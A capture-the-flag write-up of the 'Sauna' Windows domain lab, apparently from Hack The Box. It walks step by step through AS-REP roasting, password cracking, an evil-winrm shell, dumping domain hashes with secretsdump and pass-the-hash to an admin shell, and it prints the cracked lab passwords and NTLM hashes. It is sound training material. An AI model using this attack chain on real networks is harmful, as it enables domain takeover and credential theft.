



# SAUNA




SAUNA it's a Windows machine that explore bad AD implementation and crackable passwords, the server hosts a web page of a bank, Egostitical Bank. 

## Identification

I really don't like to run ***nmap*** to every port, I have a couple of services that I like to check before run a dirty scan to all ports, they are:

* FTP (21)
* SSH (22)
* RPC (139)
* SMB (135)
* HTTP (80)
* Kerberos (88)
* LDAP - With SSL (389)
* HTTPS (443)
* SMB (445)
* LDAP - Without SSL (3268)
* WinRM (5985)

So my complete scan will run with:

```
sudo nmap -sV -A -p21,22,139,135,80,88,389,443,445,3268,5985 -O 10.10.10.175 -oX sauna.xml
```

I don't want to run any vulnerability check with NSE scripts, my first idea here is just to enumerate important services known to have bad configuration that will give us more information or even a access.

Sauna output:

```
kali@kali:~$ sudo nmap -sV -A -p21,22,139,135,80,88,389,443,445,3268,5985 -O 10.10.10.175 -oX sauna.xml 

PORT     STATE    SERVICE       VERSION
80/tcp   open     http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
88/tcp   open     kerberos-sec  Microsoft Windows Kerberos (server time: 2020-07-06 12:48:22Z)
135/tcp  open     msrpc         Microsoft Windows RPC
139/tcp  open     netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open     ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
443/tcp  filtered https
445/tcp  open     microsoft-ds?
3268/tcp open     ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
5985/tcp open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found

Host script results:
|_clock-skew: 7h07m14s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-07-06T12:48:42
|_  start_date: N/A
```

This also create a xml file that we can use to other porpuse like create an report or search for CVE's with [searchsploit](https://www.exploit-db.com/searchsploit), but this is not our case.

We already know that this are serving an Web Page, but now we have more information provided by nmap:

* This server also host an entire AD service with LDAP, Kerberos and WinRM.
* The domain name is EGOTISTICAL-BANK.LOCAL
* Only accepts SMBV2

## First shot: SMB as guest [Fail]

My first shot was to look for open shares with Windows guest user, this was not successful but here what I have tried:

```
kali@kali:~$ smbclient -L 10.10.10.175 -U'"%"'
session setup failed: NT_STATUS_LOGON_FAILURE
```

Running with user "%", the smb service already know that this is an Guest/Anonymous login, but this machine ***does not allows guest logins***. Sad for us, but my next and almost successful step was to look into AD itself using LDAP protocol.

## Second shot: ldapsearch as guest [Half Success]

Lightweight Directory Access Protocol or LDAP, it's a protocol that is used to query domains information, it has a very ugly syntax but we can achieve good results with this, the service itself run in port 389 (with SSL support) and 3268 (without), I run my queries against the 3268 port.

Simple lookup

```
kali@kali:~$ ldapsearch -x -H "ldap://10.10.10.175:3268"
```

Using ldapsearch we are able to run ldap queries, using ***-x*** flag means that we will use a simple authentication (aka ***Guest***), when you run this you will get the basic information about the AD itself, with that I found a name of a people inside the system

```
...
# Hugo Smith, EGOTISTICAL-BANK.LOCAL
dn: CN=Hugo Smith,DC=EGOTISTICAL-BANK,DC=LOCAL

# search result
search: 2
result: 0 Success
```

So there is a user with the name Hugo Smith, the next step was to try possible usernames for this user, thinking as a company we need create some unique username for each user based in their First and Last name, thinking that way, we can create a list of possible usernames for this Hugo Smith:

* husmith
* hsmith
* hugo_smith


## Get no pre-auth users (aka GetNPUsers)

[Impacket](https://github.com/SecureAuthCorp/impacket) it's a great python module to work with Windows networking (SMB, Kerberos, MSRPC), and is very useful to use for find some flaws in AD configuration, a famous usage is the [GetNPUsers.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py) script that they have in the examples folder, you can find a nice explaination of how this works [here](https://www.youtube.com/watch?v=pZSyGRjHNO4) but the basic idea here is to get the [TGT ticket](https://en.wikipedia.org/wiki/Ticket_Granting_Ticket) of a user that does not require a pre-authentication password in Kerberos service, in my research I realized that is ***not a real world scenario*** because sysadmin's probably will never check this box (There is no real reason for this). 

So we can use this script to get the TGT ticket for our Hugo Smith user and also check if this user really exist (because the script will need to query the Kerberos service to get the user information) and if successfull, we can let john or hashcat crack this ticket by bruteforce.

```
kali@kali:~$ python3 GetNPUsers.py EGOTISTICAL-BANK.LOCAL/hsmith -dc-ip 10.10.10.175 -no-pass -request
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for hsmith
[-] User hsmith doesn't have UF_DONT_REQUIRE_PREAUTH set
```

So I failed here, but I could validate that the username was really ***hsmith*** ,the First letter of the first name and the last name!.

Now hold on for a second, let's take a look in the bank webpage


Now we can create a possible username list from here:

* fsmith
* scoins
* hbear
* btaylor
* sdriver
* skerb


Let's try "bruteforce" that with GetNPUsers script:


Very good! we now have the ticket of ***fsmith*** user!

***$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:37c5d6e6b89a1c1de756c87327096beb$1be03010231f66addeafed50a6377818ffb3251bfc7b0d6fd201bc96402f91d4ad9c6ab4e5805a727890b65089491d0a2e162edd9241666cee8333709f8bb42bf34a4d72df2ef21543aa6a8fcd84673dc81bb619e1b9fb10750346151c44c95dfbca8aa1fffa9500395876a07c25a5ec5d44b255bbcf841f803c3b655b8d1a539985e0056cbb554992ba7daceb0964ec9188d0f7e8693cc91578c55f177b8fbf07f5f0aeeaaf15f7f8f66d2079dccb9869ef946ff7b85c328a040d04a65d502d059213103d7040d084caa8d673e81cf8b27198cf581c32e1856b2c80c0b2a5b1532dab0f7d64346092fc3e21f6428ddeb9da76717d361acccff31764f5a70e65***

Using ***-request*** argument, displays our ticket in John/hashcat, as I'm in a VM, I will use john against that target:


```
$ john --wordlist=/usr/share/wordlists/rockyou.txt tgt_fsmith 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Thestrokes23     ($krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL)
1g 0:00:00:17 DONE (2020-07-12 20:39) 0.05621g/s 592397p/s 592397c/s 592397C/s Thing..Thereisnospoon
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

So here is, fsmith password is ***Thestrokes23***


## First shell from WinRM

In the nmap scan, I notice that ***Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)*** service was running in the ***Windows Remote Management*** port, this Windows service allows to run commands inside a server, for management porpuse, not all users have access to that, but as this is a CTF, maybe our user has! For this exploration I will use [evil-winrm](https://github.com/Hackplayers/evil-winrm) tool, this is a ruby script that allows us to have a pseudo shell throuth WinRM.

```
kali@kali:~$ evil-winrm -u fsmith -p Thestrokes23 -i 10.10.10.175

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\FSmith\Documents> whoami /user

USER INFORMATION
----------------

User Name              SID
====================== ==============================================
egotisticalbank\fsmith S-1-5-21-2966785786-3096785034-1186376766-1105
*Evil-WinRM* PS C:\Users\FSmith\Documents> 
```

We are in, now for our user flag

```
*Evil-WinRM* PS C:\Users\FSmith\Documents> type ..\Desktop\user.txt
1b55<REDACTED>
```

## Our paths to root


Now we need to escalate privileges, let's start our basic recon:

Userlist:

```
Evil-WinRM* PS C:\Users\FSmith\Documents> net user

User accounts for \\

-------------------------------------------------------------------------------
Administrator            FSmith                   Guest
HSmith                   krbtgt                   svc_loanmgr
```

There is a service user here, ***svc_loanmgr***

Get-Services:
- No permission for that

Get-Process:
- No permission for that

Auto logon registry:
```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon"
```



Oh yeah! We find the ***svc_loanmgr*** in the auto logon registry!


## Grabing NTDS.dit

NTDS.dit it's the Domain database file, if you can grab this file you can have access to all data inside your AD and the passwords hashes.

There are many ways to access that file, but for the sake of simplicity we can use the [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) from impacket.


```
kali@kali:~$ python3 secretsdump.py EGOTISTICALBANK.LOCAL/svc_loanmgr:"Moneymakestheworldgoround!"@10.10.10.175
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4a8899428cad97676ff802229e466e2c:::
EGOTISTICAL-BANK.LOCAL\HSmith:1103:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\FSmith:1105:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
```

With this we have the Admin LMHASH:NTHASH, the method that worked was using DRSUAPI that is used to replicate domain information, our user has privileges enough to perform this kind of sync, we also could have tried DCSync here, but this works as well.


### Pass the hash


With the admin hash we are able to perform a psexec with the NTLM hash, let's use Metasploit for that because we can also run our payload to grab a full access to the machine.




Yep, we have a root shell


```
C:\Windows\system32>type ..\..\Users\Administrator\Desktop\root.txt
type ..\..\Users\Administrator\Desktop\root.txt
f3e<REDACTED>
```


## Final throughs


That was a very nice machine to do, and a pretty easy too when was done. But all the process will give you a good knowledge about Windows networking and Domain security. 

Thanks


